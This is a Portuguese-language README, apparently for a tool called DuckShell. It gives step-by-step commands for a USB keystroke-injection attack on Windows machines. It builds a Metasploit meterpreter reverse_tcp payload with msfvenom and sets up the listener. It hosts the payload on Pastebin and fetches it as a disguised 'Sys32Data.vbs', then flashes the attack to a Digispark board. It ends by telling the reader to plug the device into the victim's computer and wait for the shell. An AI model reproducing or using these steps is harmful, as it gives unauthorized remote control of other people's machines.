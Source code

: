 # DuckShell

=========================================================

#Crie seu Payload atraves do Metasploit usando o seguinte codigo>

msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST=“attacker ip” LPORT=444 -o /root/Desktop/payload.txt
(Substitua "attacker ip" pelo seu ip local)

=========================================================

#Execute o Metasploit

systemctl start postgresql
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST "attacker ip"
set RHOST 444
exploit

#Jogue o codigo criado no arquivo "payload.txt" no Pastebin:

https://pastebin.com/
(Clique em "Create New Paste" e copie o a url criada para seu arquivo)

=========================================================

#Modifique o arquivo payload.duck inserindo o link do Pastebin na seguinte linha:

(Substitua >>link<< pelo link do Pastebin)
STRING $client.DownloadFile(' >>link<< ','Sys32Data.vbs')

=========================================================

#Execute o duckencoder no arquivo payload.duck

cat payload.duck | python duckencoder.py -p -l br > inject.bin

=========================================================

#Excute o duck2spark no arquivo inject.bin

./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino

=========================================================

#Abra o arquivo inject.ino no Arduino
Site Download Arduino

Windows(https://www.arduino.cc/download.php?f=/arduino-1.8.5-windows.exe)
Linux(https://www.arduino.cc/download_handler.php?f=/arduino-1.8.5-linux64.tar.xz)

=========================================================

#Carregue o codigo através do Arduino em seu Digispark
Site Compra
(https://www.baudaeletronica.com.br/digispark-attiny85.html?gclid=CjwKCAjw8NfrBRA7EiwAfiVJpbY-3W7UOWFbtM9CaCiscVXVHin11btfv47m_17zTJEQGgbhG_D4zhoCnt8QAvD_BwE)

=========================================================

#Agora Basta Apenas Conectar ao Computador da Vitima e esperar a Conexão :)

=========================================================

